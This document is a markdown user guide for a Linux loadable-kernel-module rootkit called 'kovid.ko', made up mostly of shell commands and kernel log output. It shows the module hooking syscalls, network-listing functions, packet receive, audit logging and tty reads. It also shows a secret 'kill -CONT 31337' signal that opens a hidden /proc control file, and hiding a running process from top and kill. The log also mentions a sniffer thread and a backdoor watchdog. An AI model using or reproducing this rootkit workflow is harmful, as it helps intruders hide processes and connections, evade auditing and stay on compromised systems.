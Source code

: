 # User guide

First, ensure that you've built the LKM (Loadable Kernel Module). Let's say its name is `kovid.ko`.
To load the LKM, use the following command:

```
# insmod kovid.ko 
```

You should see output similar to this:
```
[   97.774022] version 2.0.0
[   97.789236] kv: using kprobe for kallsyms_lookup_name
[   97.801020] invalid data: bpf_map_get will not work
[   97.812963] add sysaddr: ffffffff8187ea90
[   97.826660] Installing: 'sys_exit_group' syscall=1
[   97.838647] add sysaddr: ffffffff8186c430
[   97.845733] Installing: 'sys_clone' syscall=1
[   97.857663] add sysaddr: ffffffff81866940
[   97.864522] Installing: 'sys_kill' syscall=1
[   97.876814] add sysaddr: ffffffff81879880
[   97.883672] Installing: 'sys_read' syscall=1
[   97.897356] add sysaddr: ffffffff819f4c50
[   97.904322] Installing: 'sys_bpf' syscall=1
[   97.916497] add sysaddr: ffffffff8188bf80
[   97.923767] Installing: 'tcp4_seq_show' syscall=0
[   97.940202] Installing: 'udp4_seq_show' syscall=0
[   97.956733] Installing: 'tcp6_seq_show' syscall=0
[   97.976237] Installing: 'udp6_seq_show' syscall=0
[   97.993105] Installing: 'packet_rcv' syscall=0
[   98.009972] Installing: 'tpacket_rcv' syscall=0
[   98.027238] Installing: 'account_process_tick' syscall=0
[   98.034914] Installing: 'account_system_time' syscall=0
[   98.042575] Installing: 'audit_log_start' syscall=0
[   98.050958] Installing: 'filldir' syscall=0
[   98.061948] Installing: 'filldir64' syscall=0
[   98.072683] Installing: 'tty_read' syscall=0
[   98.085251] Installing: 'proc_dointvec' syscall=0
[   98.092877] ftrace hook 0 on sys_exit_group
[   98.092986] ftrace hook 1 on sys_clone
[   98.093039] ftrace hook 2 on sys_kill
[   98.093101] ftrace hook 3 on sys_read
[   98.093164] ftrace hook 4 on sys_bpf
[   98.093226] ftrace hook 5 on tcp4_seq_show
[   98.093294] ftrace hook 6 on udp4_seq_show
[   98.093364] ftrace hook 7 on tcp6_seq_show
[   98.093488] ftrace hook 8 on udp6_seq_show
[   98.093560] ftrace hook 9 on packet_rcv
[   98.093624] ftrace hook 10 on tpacket_rcv
[   98.093700] ftrace hook 11 on account_process_tick
[   98.093780] ftrace hook 12 on account_system_time
[   98.093860] ftrace hook 13 on audit_log_start
[   98.093933] ftrace hook 14 on filldir
[   98.093995] ftrace hook 15 on filldir64
[   98.094060] ftrace hook 16 on tty_read
[   98.094122] ftrace hook 17 on proc_dointvec
[   98.096047] Waiting for event
[   98.096392] hide [0000000037b8b334] irq/102_pciehp : 130
[   98.096959] hide [00000000bbbd2bda] irq/101_pciehp : 129
[   98.097074] hide [00000000a395b0d4] irq/100_pciehp : 127
[   98.097168] hide [000000009cf2760e] irq/103_pciehp : 128
[   98.097484] loaded.
```

Make sure you remember what value you used for `PROCNAME` during the build process.
Now, let’s use our trick—specifically, the signal that opens and closes the `/proc` files:

```
# kill -CONT 31337
```
By doing this, we should see our `proc` loaded:
```
# kill -CONT 31337
[  929.419542] /proc/myprocname loaded, timeout: 1200s
```

## A simple feature

The `top` command shows `a.out` process:

```
Mem: 34248K used, 67184K free, 80K shrd, 324K buff, 10544K cached
CPU:  90% usr   9% sys   0% nic   0% idle   0% io   0% irq   0% sirq
Load average: 3.77 3.50 2.27 2/49 146
  PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  133   112 root     R     2336   2% 100% ./a.out
  111     1 root     S     9824  10%   0% sshd: /usr/sbin/sshd [listener] 0 of 1
```

To hide the process:

```
# echo 133 > /proc/myprocname
[ 1012.760147] hide [00000000fd76f643] a.out : 133
```

Attempting to kill the process:

```
# kill -9 133
sh: can't kill pid 133: No such process
```

The process is no longer visible in the `top` command either.
When we unload the LKM, the process becomes visible again:

```
# rmmod kovid.ko
[  800.659219] Uninstalling: 'sys_exit_group' syscall=1
[  800.673635] Uninstalling: 'sys_clone' syscall=1
[  800.772610] Uninstalling: 'sys_kill' syscall=1
[  800.876607] Uninstalling: 'sys_read' syscall=1
[  800.980667] Uninstalling: 'sys_bpf' syscall=1
[  801.084634] Uninstalling: 'tcp4_seq_show' syscall=0
[  801.188588] Uninstalling: 'udp4_seq_show' syscall=0
[  801.292584] Uninstalling: 'tcp6_seq_show' syscall=0
[  801.396669] Uninstalling: 'udp6_seq_show' syscall=0
[  801.500613] Uninstalling: 'packet_rcv' syscall=0
[  801.604574] Uninstalling: 'tpacket_rcv' syscall=0
[  801.708578] Uninstalling: 'account_process_tick' syscall=0
[  801.812584] Uninstalling: 'account_system_time' syscall=0
[  801.916587] Uninstalling: 'audit_log_start' syscall=0
[  802.020593] Uninstalling: 'filldir' syscall=0
[  802.124594] Uninstalling: 'filldir64' syscall=0
[  802.228660] Uninstalling: 'tty_read' syscall=0
[  802.332614] Uninstalling: 'proc_dointvec' syscall=0
[  802.448088] unhide [0000000037b8b334] irq/102_pciehp : 130
[  802.448256] unhide [00000000bbbd2bda] irq/101_pciehp : 129
[  802.448341] unhide [00000000a395b0d4] irq/100_pciehp : 127
[  802.448921] unhide [000000009cf2760e] irq/103_pciehp : 128
[  802.449082] unhide [00000000fd76f643] a.out : 133
[  802.449184] stop sniff thread
[  802.449290] Got event
[  802.449338] BD watchdog OFF
[  802.692971] stop proc timeout thread
[  803.612482] /proc/myprocname unloaded.
[  803.612819] stop tainted thread
[  804.956719] unloaded.
# kill -9 133
```

## Note

Please ensure that you have the specific kernel headers for versions 5.10, 5.15, and 6.0 installed in `/lib/modules/<version>/build` to avoid any issues during the build process.
